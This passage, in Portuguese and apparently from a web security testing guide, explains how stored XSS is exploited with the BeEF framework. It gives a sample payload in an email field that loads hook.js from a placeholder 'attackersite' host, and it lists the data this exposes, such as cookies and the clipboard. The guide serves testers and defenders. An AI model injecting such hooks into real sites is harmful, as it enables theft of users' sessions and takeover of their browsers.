 O XSS armazenado pode ser explorado por frameworks avançados de exploração JavaScript, como [BeEF](https://www.beefproject.com) e [XSS Proxy](http://xss-proxy.sourceforge.net/).

Um cenário típico de exploração do BeEF envolve:

- Injetar um gancho JavaScript que se comunica com o framework de exploração de navegador do atacante (BeEF)
- Aguardar o usuário da aplicação visualizar a página vulnerável onde a entrada armazenada é exibida
- Controlar o navegador do usuário da aplicação por meio do console do BeEF

O gancho JavaScript pode ser injetado explorando a vulnerabilidade de XSS na aplicação web.

**Exemplo**: Injeção do BeEF em `index2.php`:

```html
aaa@aa.com"><script src=http://attackersite/hook.js></script>
```

Quando o usuário carrega a página `index2.php`, o script `hook.js` é executado pelo navegador. É então possível acessar cookies, captura de tela do usuário, área de transferência do usuário e lançar ataques XSS complexos.

> ![Exemplo de Injeção do BeEF](images/RubyBeef.png)\
> *Figura 4.7.2-3: Exemplo de Injeção do BeEF*
>
> Este ataque é particularmente eficaz em páginas vulneráveis visualizadas por muitos usuários com diferentes privilégios.
